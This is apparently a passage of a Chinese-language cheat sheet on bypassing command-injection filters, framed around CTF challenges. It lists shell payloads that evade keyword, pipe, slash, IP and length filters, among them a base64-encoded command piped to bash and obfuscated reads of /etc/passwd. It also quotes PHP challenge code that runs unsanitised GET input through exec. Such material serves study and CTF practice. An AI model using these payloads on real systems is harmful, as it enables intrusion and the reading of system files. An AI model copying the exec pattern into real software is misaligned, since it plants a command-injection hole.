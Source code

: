 - 位置参数的特殊变量`$@`和`$*`

`$@`和`$*`代表全部的位置参数，当没有位置参数时，扩展为空。如，``

```bash
who$@ami
who$*ami
```

### 绕过管道符`|`

```bash
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```

### 反斜杠`\`和斜杠`/`绕过

```bash
# ${varname:offset:length} 子字符串
cat ${HOME:0:1}etc${HOME:0:1}passwd

# d
cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
```

### 绕过 IP 限制

```bash
127.0.0.1 == 2130706433
```

### 绕过长度限制

#### 15位

#### 命令执行5位 （HITCON 2017 Quals Babyfirst Revenge）

```php
<?php
$sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
@mkdir($sandbox);
@chdir($sandbox);
if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
    @exec($_GET['cmd']);
} else if (isset($_GET['reset'])) {
    @exec('/bin/rm -rf ' . $sandbox);
}
highlight_file(__FILE__);
```

#### 命令执行 4 位（HITCON 2017 Quals Babyfirst Revenge v2）

```php
<?php
$sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
@mkdir($sandbox);
@chdir($sandbox);
if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 4) {
    @exec($_GET['cmd']);
} else if (isset($_GET['reset'])) {
    @exec('/bin/rm -rf ' . $sandbox);
}
highlight_file(__FILE__);
```
